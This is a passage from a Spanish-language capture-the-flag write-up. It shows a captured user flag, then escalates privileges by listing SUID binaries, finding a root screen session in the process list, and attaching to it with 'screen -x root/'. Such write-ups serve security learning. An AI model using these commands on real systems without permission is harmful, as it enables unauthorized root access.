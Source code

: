 Ahora vamos a leer la `flag` del usuario:

> user.txt

```
7cc698fe83419af87e0a504eb91913e2
```

## Escalate Privileges

Si listamos los permisos con `SUID` que tenemos a nivel de sistema, veremos lo siguiente:

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
263828     56 -rwsr-xr-x   1 root     root        55528 ene 20  2022 /usr/bin/mount
   263458     72 -rwsr-xr-x   1 root     root        71912 ene 20  2022 /usr/bin/su
   259697     60 -rwsr-xr-x   1 root     root        58416 feb  7  2020 /usr/bin/chfn
   259700     88 -rwsr-xr-x   1 root     root        88304 feb  7  2020 /usr/bin/gpasswd
   259698     52 -rwsr-xr-x   1 root     root        52880 feb  7  2020 /usr/bin/chsh
   263830     36 -rwsr-xr-x   1 root     root        35040 ene 20  2022 /usr/bin/umount
   259701     64 -rwsr-xr-x   1 root     root        63960 feb  7  2020 /usr/bin/passwd
   263292     44 -rwsr-xr-x   1 root     root        44632 feb  7  2020 /usr/bin/newgrp
   280410    472 -rwsr-xr-x   1 root     root       482312 feb 27  2021 /usr/bin/screen
   273849    472 -rwsr-xr-x   1 root     root       481608 jul  2  2022 /usr/lib/openssh/ssh-keysign
   264755     52 -rwsr-xr--   1 root     messagebus    51336 oct  5  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Veremos un binario interesante en esta linea:

```
280410  472 -rwsr-xr-x   1 root  root   482312 feb 27  2021 /usr/bin/screen
```

Si leemos la documentacion del binario veremos que se utiliza para crear sesion dentro del sistema por asi decirlo, si listamos los procesos que hay en ejecuccion en el sistema veremos lo siguiente:

```shell
ps -aux | grep "screen"
```

Info:

```
root         318  0.0  0.0   2484   564 ?        Ss   09:25   0:01 /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done
printer   104776  0.0  0.0   3112   700 pts/1    R+   10:27   0:00 grep screen
```

Vemos que esta ejecutando una sesion como `root` con `screen` por lo que podremos realizar lo siguiente:

```shell
screen -x root/
```
